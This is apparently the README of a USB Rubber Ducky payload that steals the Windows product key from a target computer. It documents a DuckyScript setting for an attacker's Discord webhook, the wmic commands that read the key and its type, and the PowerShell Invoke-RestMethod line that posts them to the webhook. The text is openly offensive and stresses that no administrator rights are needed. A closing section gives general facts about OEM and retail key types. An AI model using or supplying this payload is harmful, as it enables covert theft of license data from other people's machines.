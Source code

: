 # Exfiltrate Windows Product Key

Through this payload, you can export the key information related to the Windows Product Key, knowing its type and the key itself, using a Discord Webhook.

No administrator permissions are required to do this, isn't that absurd, right? :-)

![](./assets/1.png)

**Category**: Exfiltration

## Index

- [Introduction](#exfiltrate-windows-product-key)
- [Note](#note)
- [Dependencies](#dependencies)
- [Settings](#settings)
- [Payload Description](#payload-description)
- [Product Key Types](#product-key-types)
- [Sources](#sources)

## Note

Tested on:
- Windows 11

## Dependencies

- Discord Webhook

## Settings

This portion of the payload serves as a user-defined configuration section where you should input your Discord Webhook URL. You should replace "example.com" with the actual Discord Webhook URL you want to use. The Webhook URL is the endpoint where your payload will send the acquired information related to the Windows Product Key, as well as its type, for exfiltration to a specified Discord channel or server. It's a crucial part of the payload that connects the data extraction process to your Discord platform for further analysis or actions.

```DuckyScript
STRING $hookUrl = "example.com"
```

## Payload Description

Through this payload, you can export essential information related to the Windows Product Key using a Discord Webhook, ensuring that you identify its type and the key itself.

At the beginning of the payload, the DETECT_READY extension [[1](#sources)] is used to optimize the opening of a PowerShell session on the target.

The following commands are then executed to obtain the necessary information about the Product Key:

1. This command retrieves the currently in-use Product Key:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKey
   ```

2. This command helps determine the type of key. You can refer to the [key types section](#key-types) for more details:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKeyDescription
   ```

The acquired information is stored in the `$exfiltration` variable, which is subsequently used to create the `$payload` object. This object is then utilized for exfiltration via a Discord Webhook.

**Exfiltration**:

```powershell
Invoke-RestMethod -Uri $hookUrl -Method Post -Body ($payload | ConvertTo-Json) -ContentType 'Application/Json'; exit
```

The `$hookUrl` variable was initialized at the beginning of the payload with the value you need to define before execution.

## Product Key Types

When dealing with Windows Product Keys, it's essential to understand the different types and their characteristics:

- **OEM Keys** (*Original Equipment Manufacturer*):

      **Transferability**: Not supposed to be transferable. These keys are typically tied to the prebuilt PC on which they were originally installed.
      **Usage**: Manufacturers use OEM keys to install Windows on new computers.
      **Procurement**: OEM keys can sometimes be found at discount key vendors, although their use on different hardware may be challenging.

- **Retail Keys** (*aka "Full Packaged Product" Keys*):
      
      **Transferability**: Transferrable. These keys can be moved from one computer to another.
      **Cost**: Retail keys are often more expensive, often exceeding $100.
      **Hidden Keys**: In some cases, a computer may already have a retail key, perhaps from a previous Windows upgrade. Users might not be aware of this until they check.

Understanding these key types is crucial when working with Windows Product Keys, as it can impact their use, transferability, and compatibility with different hardware and scenarios.

*Note: Source of this info [[2](#sources)]*

## Sources

- [1] Detect Ready: https://shop.hak5.org/blogs/usb-rubber-ducky/detect-ready
- [2] Is your Windows Product Key transferrable? https://www.tomshardware.com/how-to/transfer-windows-license-to-new-pc#is-your-windows-product-key-transferrable-3